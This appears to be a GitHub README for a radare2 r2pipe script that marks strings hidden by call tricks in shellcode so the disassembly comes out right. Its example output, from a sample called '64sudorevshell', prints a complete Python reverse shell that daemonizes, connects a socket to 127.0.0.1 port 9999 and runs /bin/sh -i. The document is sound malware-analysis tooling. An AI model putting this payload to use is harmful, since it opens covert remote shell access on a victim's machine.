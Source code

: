 # call_trick_r2pipe

Are you using radare for reversing or debugging a shellcode/malware with a lot of call tricks for strings like these:

```
call @f
db "string1",0
@f:
more code
call @g:
db "string2",0
@g:
more code
```

Try this r2pipe (https://www.radare.org/n/r2pipe.html) script to fix disasm:
 ```
#!/usr/bin/env python
# run inside r2 session: #!pipe python3 poc.py

import r2pipe

r2 = r2pipe.open()
print(r2.cmd("izz"))
for e in r2.cmdj("izzj"):
       if e['type'] == "ascii" and e['section'] == ".text":
               # csa = f"Csa {e['size']} @ { e['vaddr']}"
               csa = "Csa " + str(e['size']) + " @" + str(e['vaddr'])
               print(csa)
               r2.cmd(csa)
```

This script search all C-STRING-STYLE in .text section and mark each one like string 

Just use this script with "#!pipe python3 poc.py" command inside your r2 session:
```
dreg@fr33project:~# r2 64sudorevshell
[0x00401000]> #!pipe python3 poc.py
[Strings]
nth paddr      vaddr      len size section   type  string
---------------------------------------------------------
0   0x0000105a 0x0040105a 524 525  .text     ascii exec("""\nimport socket,subprocess,os,sys\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\n\nos.setsid()\n\nos.umask(0)\n\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nsys.stdout.flush()\n\nsys.stderr.flush()\n\nfdreg = open("/dev/null", "w")\n\nsys.stdout = fdreg\n\nsys.stderr = fdreg\n\nsdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\nsdregs.connect((str(0x7f000001),9999))\n\nos.dup2(sdregs.fileno(),0)\n\nos.dup2(sdregs.fileno(),1)\n\nos.dup2(sdregs.fileno(),2)\n\np=subprocess.call(["/bin/sh","-i"])\n""")
1   0x00001274 0x00401274 11  12   .text     ascii /bin/python
2   0x000012b7 0x004012b7 9   10   .text     ascii /bin/sudo
3   0x00001479 0x00000001 18  19   .strtab   ascii 64sudorevshell.asm
4   0x0000148c 0x00000014 6   7    .strtab   ascii parent
5   0x00001493 0x0000001b 5   6    .strtab   ascii child
6   0x00001499 0x00000021 4   5    .strtab   ascii arg3
7   0x000014a2 0x0000002a 4   5    .strtab   ascii arg2
8   0x000014ab 0x00000033 4   5    .strtab   ascii arg1
9   0x000014b0 0x00000038 4   5    .strtab   ascii drgs
10  0x000014b9 0x00000041 6   7    .strtab   ascii end_sc
11  0x000014c0 0x00000048 11  12   .strtab   ascii __bss_start
12  0x000014cc 0x00000054 6   7    .strtab   ascii _edata
13  0x000014d3 0x0000005b 4   5    .strtab   ascii _end
14  0x000014d9 0x00000001 7   8    .shstrtab ascii .symtab
15  0x000014e1 0x00000009 7   8    .shstrtab ascii .strtab
16  0x000014e9 0x00000011 9   10   .shstrtab ascii .shstrtab
17  0x000014f3 0x0000001b 18  19   .shstrtab ascii .note.gnu.property
18  0x00001506 0x0000002e 5   6    .shstrtab ascii .text


Csa 525 @4198490
Csa 12 @4199028
Csa 10 @4199095
[0x00401000]>
```

# Before

![alt text](before.png)

# After

![alt text](after.png)

Greetz to Maijin for hints in #radare channel
           


